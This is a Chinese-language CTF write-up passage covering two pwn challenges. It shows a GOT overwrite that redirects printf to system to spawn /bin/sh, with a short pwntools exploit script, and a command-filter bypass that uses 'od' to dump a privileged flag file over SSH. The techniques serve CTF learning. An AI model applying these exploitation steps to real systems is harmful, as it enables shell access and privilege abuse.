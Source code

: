 猜错退出程序时，有个 printf 打印 buf 内容，查看 got 表，发现 printf 和 system 只差 0x10

```
[0x46d038] system@GLIBC_2.2.5 -> 0x401076 (system@plt+6) ◂— push   4
[0x46d040] printf@GLIBC_2.2.5 -> 0x401086 (printf@plt+6) ◂— push   5
```

所以把 times 覆盖成 got[printf]

```
buf='/bin/sh;' ; got[printf] -> system
```

times每猜对一次自减1，控制猜对的次数，即可构造出system("/bin/sh")


exp:

```
sl('/bin/sh;AAAAAAAA'+p32(0x46d040))
secret = [18283,11576,17728,15991,12642,16253,13690,15605,12190,16874,18648,10083,18252,14345,11875]
for i in secret:
    send_secret(i)

send_secret(66666)
```

只用找出前 0x10 个 secret 即可，不过，硬要找全 10000 也不难，正则匹配一下就好 。

## Test your ssh(test) - TaQini

> 由于 Ubuntu 14 之后，通过 egid 执行/bin/sh 的权限被 ban 了,所以这次比赛 ssh 靶机用的全是 Ubuntu 14.04

考察点：linux 基础

这题设置的目的是测试 ssh 连接显示编码什么的是否正常，但是直接白给不太好，就加了个字符过滤。看源码，可知过滤了以下字符：

```
 n e p b u s h i f l a g | / $ ` - < > .
```

于是就找可用的命令呗，先看下环境变量 PATH，然后 grep 搜一下

```
$ env $PATH
$ ls /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin /usr/games /usr/local/games | grep -v -E 'n|e|p|b|u|s|h|i|f|l|a|g'
```

发现 od 幸存

```
ctf@f930cab87217:~$ ./test | grep 045102 -C 2
od *
uid=1000(ctf) gid=1000(ctf) egid=1001(ctf_pwn) groups=1000(ctf)
0000000 045102 075504 067145 067552 057571 067571 071165 070137
0000020 067167 063537 066541 076545 077412 046105 001106 000401
0000040 000000 000000 000000 000000 001000 037000 000400 000000
```
